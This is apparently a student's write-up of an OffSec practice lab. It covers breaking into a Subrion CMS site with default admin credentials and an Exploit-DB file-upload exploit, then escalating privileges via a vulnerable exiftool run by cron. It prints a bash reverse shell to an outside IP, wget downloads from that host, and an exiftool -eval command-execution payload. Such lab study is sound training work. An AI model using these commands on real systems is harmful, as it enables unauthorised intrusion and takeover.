 
# 80

Found a webpage run on subrion cms![](attachment/14588aa3c80aa047fec95fef97b3f96e.png)\
Found robots.txt
![](attachment/60dca9c1a6334efafbb3d85cfdfe71b0.png)

Found login page with version disclosure:
![](attachment/11a1f3530d98613de9b0afb3b8aa0155.png)

Trying `admin : admin`:
![](attachment/825ed085b1b1336b9fd74112aca3a9c0.png)
We are logged in.

Now trying a file upload vulnerability https://www.exploit-db.com/exploits/49876:
```bash 
python3 subrionfileup.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```
![](attachment/3b168731940d884ba0416634edf5b7f3.png)
![](attachment/a9fbd2595f5bc0c4cc4b676c2b60d519.png)
Now transfering shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.167/8000 0>&1
```

and executing it:
![](attachment/14883a31727b13d5133c6ff282ec2537.png)

We get a full a TTY:
![](attachment/74ec8bc0eb3b565e420c5a304d87b393.png)

Found some potential credentials:
![](attachment/34c9c56d45faeb5e9289cc859443bb75.png)
Found some info:
![](attachment/6921c6d36b58823a1c6b91b540fb81a5.png)

Running linpeas found cronjob:
![](attachment/0067abc56945d20942654f6728f09002.png)
![](attachment/71f5603a5c5f80c31c0fef2cd0bd4ef3.png)
Now checking exiftool version:
![](attachment/6083e73440bd0a0cdd3b63169ab36592.png)
https://github.com/OneSecCyber/JPEG_RCE/tree/main
ExifTool 7.44 to 12.23 are vulnerable.

Our exiftool version is vulnerable to this exploit.
Using the exiftool exploit
Transfer the required files:
```
wget http://192.168.45.167/eval.config
wget http://192.168.45.167/runme.jpg
```

create a malicious image:
```
exiftool -config eval.config runme.jpg -eval='system("bash /var/www/html/subrion/uploads/shell.sh")'
```
in `/var/www/html/subrion/uploads`

# Lesson Learnt

Just because a script runs in cron and uses a specific binary it might not be tricking the script and might be about the version too